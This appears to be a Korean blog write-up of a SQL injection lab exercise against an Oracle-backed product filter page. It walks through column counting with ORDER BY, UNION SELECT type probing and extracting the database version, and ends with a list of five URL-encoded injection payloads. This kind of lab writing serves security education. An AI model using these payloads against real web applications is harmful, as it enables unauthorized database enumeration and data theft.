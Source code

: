 여기서 공격자는 웹 애플리케이션과 데이터베이스 사이에서 사용되는 SQL 쿼리문의 구조를 유추하고 공격을 시도합니다.

```sql
SELECT _ FROM _ WHERE category = 'USER_INPUT';
```

---

### Step 2. SQL 쿼리문 구조 예측 후 공격 구문을 삽입하여 데이터 추출 시도
> **(IMAGE 1)** ORDER BY절을 이용하여 테이블의 컬럼 수 확인
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdAKvGQ%2FbtsKZw8ilUI%2FoeofDIUYUxRVo1lorM65hk%2Fimg.png" alt="" width=1300>

<br>

> **(IMAGE 2)** 컬럼 개수 확인 후 UNION절을 이용하여 Injectable SQL Query 작성
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fb8RBdl%2FbtsKZKkRMRk%2FD0rUKrxgGaIVyXQfdZTkhk%2Fimg.png" alt="" width=1300>

<br>

> **(IMAGE 3, 4)** 테이블의 컬럼 데이터 유형 확인
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcXURWP%2FbtsK0HOGTY1%2Fssy9lr9kNUVktG5enRFDXK%2Fimg.png" alt="" alt="[IMAGE 3] 테이블 > 컬럼 유형(TYPE) 확인">
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbCx8CY%2FbtsKZaYLDag%2F47ql4cPHJQwfnQJjtMXeC0%2Fimg.png" alt="" width=1300 alt="[IMAGE 4] 테이블 > 컬럼 유형(TYPE) 확인">

<br>

> **(IMAGE 5, 6)** 데이터베이스 버전정보 확인 (CORE 11.2.0.2.0 Production)
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbPoIhd%2FbtsK1mQxtwp%2FdTDYrU0YaxKXzgtGojVmm1%2Fimg.png" alt="" width=1300 style="align-center" caption="[IMAGE 5] 데이터베이스 버전 추출 쿼리 삽입">
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2Fyd5mB%2FbtsK0iuHWXX%2F9tSvEArCK0u7XmFjRaBtsK%2Fimg.png" alt="" width=1300>

<br>

### Payload
```

/filter?category=Accessories'%20ORDER%20BY%202--
/filter?category=Accessories'%20UNION%20SELECT%20null%2Cnull%20FROM%20DUAL--
/filter?category=Accessories'%20UNION%20SELECT%20123%2C456%20FROM%20DUAL--
/filter?category=Accessories'%20UNION%20SELECT%20%27123%27%2C%27456%27%20FROM%20DUAL--
/filter?category=Accessories'%20UNION%20SELECT%20banner%2C%27456%27%20FROM%20v$version--
```

---

<h2 style="text-align: center;" data-ke-size="size26"><b>END</b></h2>